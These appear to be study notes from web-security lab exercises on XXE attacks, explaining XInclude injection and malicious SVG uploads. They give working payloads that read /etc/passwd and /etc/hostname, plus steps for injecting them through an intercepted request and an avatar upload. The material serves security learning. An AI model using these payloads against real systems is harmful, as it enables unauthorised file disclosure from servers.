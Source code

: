 In this situation:
you cannot carry out a classic XXE attack --> bc you don't control the entire XML document 
=>
cannot define or modify a `DOCTYPE` element

However, you might be able to use `XInclude` instead:
`XInclude`:
- is a part of the XML specification
- allows an XML document to be built from sub-documents
  
You can place an `XInclude` attack -->  within any data value in an XML document
=>
the attack can be performed in situations where you only control a single item of data 
that is placed into a server-side XML document

To perform an `XInclude` attack:
- you need to reference the `XInclude` namespace
- provide the path to the file that you wish to include
- For example:
  `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
  `<xi:include parse="text" href="file:///etc/passwd"/></foo>`
#### Exploiting XInclude to retrieve files
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the `productId` parameter to:
   `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

### XXE attacks via file upload
Some applications:
- allow users to upload files 
- which are then processed server-side

Some common file formats -->  use XML or contain XML subcomponents. 
Examples of XML-based formats are -->  `DOCX` and `SVG`

For example:
- an app might allow users to upload images
- process or validate these on the server after they are uploaded
  
Even if the app expects to receive a format like PNG or JPEG:
the image processing library that is being used -->  might support SVG images
Since the SVG format uses XML,:
an attacker can -->  - submit a malicious SVG image 
                  - and so reach hidden attack surface for XXE vulnerabilities

#### Exploiting XXE via image file upload
```bash
echo '`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`' > image.svg
```

- Post a comment on a blog post, and upload this image as an avatar.
- When you view your comment, you should see the contents of the `/etc/hostname` file in your image. 
- Use the "Submit solution" button to submit the value of the server hostname